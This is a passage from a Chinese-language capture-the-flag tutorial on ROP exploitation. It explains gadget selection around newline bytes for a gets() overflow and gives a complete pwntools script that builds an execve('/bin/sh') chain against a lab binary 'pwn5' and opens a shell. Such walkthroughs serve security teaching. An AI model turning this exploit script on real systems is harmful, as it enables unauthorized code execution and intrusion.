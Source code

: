 通过这条命令我们可以找到两个gadget，但是第二个并不适用，因为地址中包含两个`0x0a`即换行，我们找到的溢出点是通过`gets()`获取输入的，这个函数默认以换行符作为结束，所以如果我们采用第二个gadget会造成payload被截断，从而不能获取shell，所以这里我们选择第一个gadget，但是我们还差`ecx`, `edx`,所以还需要再找一个gadget
`ROPgadget --binary pwn5 |grep "pop edx"`

![Alt](img/ROP技术36.png)

好了，现在可以直接构造ROP链了：

```python
    #!usr/bin/python
    #coding=utf-8
    #

    from pwn import *

    context.update(arch = 'i386', os='Linux', timeout = 1)
    io = remote('172.17.0.2',10001)

    last_name=0x080f1aa0
    int80=0x08071005
    pop1=0x08095ff4
    pop2=0x080733b0

    payload="A"*32
    payload+=p32(pop1)
    payload+=p32(0x0b)
    payload+=p32(last_name)
    payload+=p32(0)
    payload+=p32(0)
    payload+=p32(0)
    payload+=p32(pop2)
    payload+=p32(0)
    payload+=p32(0)
    payload+=p32(last_name)
    payload+=p32(int80)

    io.sendline("A")
    io.sendline("/bin/sh")
    io.sendline("A")

    io.sendline("Y")

    io.sendline("2")

    io.sendline(payload)

    io.interactive()

```

运行脚本，成功拿到shell：
